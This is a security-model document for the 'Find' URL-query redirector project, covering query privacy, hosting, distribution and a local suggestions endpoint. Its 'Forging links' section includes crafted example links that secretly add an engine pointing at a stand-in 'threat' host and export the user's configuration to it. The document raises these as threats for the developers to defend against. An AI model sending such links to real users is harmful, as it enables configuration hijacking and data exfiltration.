 # Security
This document should (tries to) describe the security model followed
by Find; what should make it privacy friendly, how a user query is
kept private, and only shared with the destination site.

## Contact
Please get in touch over the matrix chat if you have any security
concerns.

## Disclaimer(s)
Naturally, one needs to trust all the destinations site in the list,
and the people choosing them.

There is the possibility that a user "misstypes a search", calling "an
other engine and symbol than expected"; which will result in sharing
the query with the destination URL.

I don't think this is a security risk, but a concern to be sure "what
we're typing", and what it is doing (also what is the sensitivity of
the user query).

> Also, there lack tests.

## Model
Listing the different areas encompassed by the threat modeling.

> If some areas are missing, we need to implement them.

### Software
- the software is open and free, and can be customized by the users
- logic implemented in a single "small" vanilla javascript file
- the UI is implemented in more files (loaded if the query does not
  result in a URL to open)
- there is no "build step" to execute the code
- there are no dependencies at build and run time (but a web-browser)
- does not store or share user data (other than the user
  customization, if any)
- allows export and import of the user configuration as JSON data

### Infrastructure
- the software is shared on git://github.com/internet4000/find.git
- the demo/"main" instance is hosted on github pages
- the pages are deployed from an action "recipe" workflow
- serveral recipes are shared for user to deploy their own instance
- new github tags deploy a new version of the package to the public
  npm registry (matches the `package.json.version` number)
- user can and are invited to run their own instance
- running a personal instance should be made accessible, maybe 1-click

It should be possible to:
- distribute the code from a (machine) local server or a
  personal server behind a VPN
- make it a browser extension to have the code separated from "the
  real internet", if a user wants
- distribute the code on a "random" or tempory URL, such as an embed
  javascript bookmarklet or a "decentralized storage"

### Distribution
As Javasript (Class, web-components, node.js scripts), HTML, CSS
code:
- main instance demo site https://internet4000.github.io/find
- npm package https://www.npmjs.com/package/i4k-find
- git repository https://github.com/internet4000/find

### Query to Find
- is never shared to other sites or third parties
- is typed in the browser URL address-bar/omnibox, and passed to Find
  if it does not resolve in a "pattern" (URI, reserved keywords), that
  the browser "knows" (`view-source:`, `javascript:`, `https://**`,
  `ftp://` etc.)
- is passed to Find, if it is registered as a _browser protocol
  handler_ (not yet supported)
- is passed to Find, if it is used on an "instance" site, through the
  interface elements (search input, query builder button etc.)
- is passed to Find if it is called as a Javascript module with
  functions
- is passed to find through the URL hash `#` parameter `#q=`, and
  should therefore not be shared with the server hosting Find's code
- can be passed to the search `?` search parameter if the user uses it
  (which is shared to the server, to be acknownledged when using)
- is "read by find" to build a destination URL (or an other Find
  query), and "transformed" by replacing the user patterns
- is shared with a local API endpoint

### Request from Find
How Find uses the resulting URL from a Find query.

#### Query resolving
- Find replaces the current browser page's URL, by the URL that was
  resolved from a user query
- the user query is embeded in this website URL, following the URL
  pattern for the "symbol and engine" that were requested
- resolves in a URI/URL or Find query (interpreted again), and Find
   opens a new browser URL, expected if asked not to in
   `Find(query<String>, open<Boolean>)`
- can result in a `https:` URL proxying other protocol(s) `gopher:`
- can result in a `https:` proxy being used to display, as text,
  unsupported for opening as URL, but usefull, protocols; such as
  `data:<type>` to share data

#### Local API endpoint
> Currently not working when called from a browser URL box, only from
> the the Find UI.

- the `/api/suggestions#q=%s` local endpoint, is built in a
  `service-worker.js` file, served with the site, executed locally
- it is used if a user uses the search UI element(s)
- ff a user has browser search/URL typing suggestions enabled, the
browser shares by default the typing suggestions (each character
change) to the OpenSearch.xml suggestions endpoint
- the Find OpenSearch description, specifies the `#` param for user
  queries to be passed as the `%s` OpenSearch Placeholder
- currently no data is queried externaly from Find by its suggestion
  system (but exploring how to "forward the sugggestions" if a
  destination URL has support for them in their OpenSearch.xml)
- suggestions only consist of Find existing symbols engines (but could
  soon contain "community packages suggestions"; @TODO:beware of user
  generated content when in place)

## Forging links
Malicious actors could be forging links, that a Find user could click.

```txt
https://internet4000.github.io/#q=hello

;; encodeURI('https://internet4000.github.io/#q=<find query>')

https://internet4000.github.io/#& internet4000 find
"https://internet4000.github.io/#&%20internet4000%20find"

https://internet4000.github.io/#q=#add ! d https://test.org/threat/?q={}
https://internet4000.github.io/#q=#add%20!%20d%20https://test.org/threat/?q=%7B%7D"

;; Or more generally if "pipes" and recursive Find come in
#export | <destination_URL>
#export | https://test.org/threat/?q=
;; which would look like
https://internet4000.github.io/#q=#export | https://test.org/threat/?q=
https://internet4000.github.io/#q=#export%20%7C%20https://test.org/threat/?q=
```

We should enforce methods so it does not lead to an unwanted action,
such as changing the user configuration, executing aribtrary code,
opening destination, or transiant URLs, not explicitely aknowledged by
a user.

There was a `window.confirm()` call before executing a `#` command
call, but was removed. Maybe this should be enforced again, for this
and other scenarios.

## Notes
Get in touch for any concern, or contribution; this is experimental.
